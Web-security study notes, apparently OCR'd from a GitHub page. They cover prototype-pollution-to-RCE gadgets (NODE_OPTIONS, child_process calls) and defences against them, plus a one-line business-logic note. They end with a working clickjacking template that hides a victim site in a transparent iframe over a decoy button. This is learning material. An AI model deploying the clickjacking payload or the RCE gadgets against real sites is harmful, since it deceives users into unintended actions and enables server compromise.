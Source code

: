 RCE with server side prototype pollution

- NODE_OPTIONS
- child_process.fork()
- child_process.execSync()

### Prototype Pollution via browser APIs

- fetch()
- Object.defineProperty()

### Prevention

- Sanitizing property keys
    - e.g. _proto_
    - use allow list of permitted keys
- Preventing changes to protoype objects
    - Object.freeze(Object.prototype);
    - This will block sources
- Preventing an object from inheriting properties
    - Manually set an objects prototype with Object.create()
        - use null
    - block gadgets
- Use safer alternatives
    - Use objects that provide built in protection.
        - get()
        - set()

# Business Logic Vulns

Dropping a request to skip a specific page.

# Clickjacking

```
<head>
  <style>
    #target_website {
      position:relative;
      width: 1280px;
      height:1280px;
      opacity:0.00001;
      z-index:2;
    }
    #decoy_website {
      position: absolute;
      top:490px;
      left:100px;
      z-index:1;
    }
  </style>
</head>
<body>
  <p id="decoy_website">Click me</p>
  <iframe id="target_website" src="https://victim-website.com">
  </iframe>
</body>
```
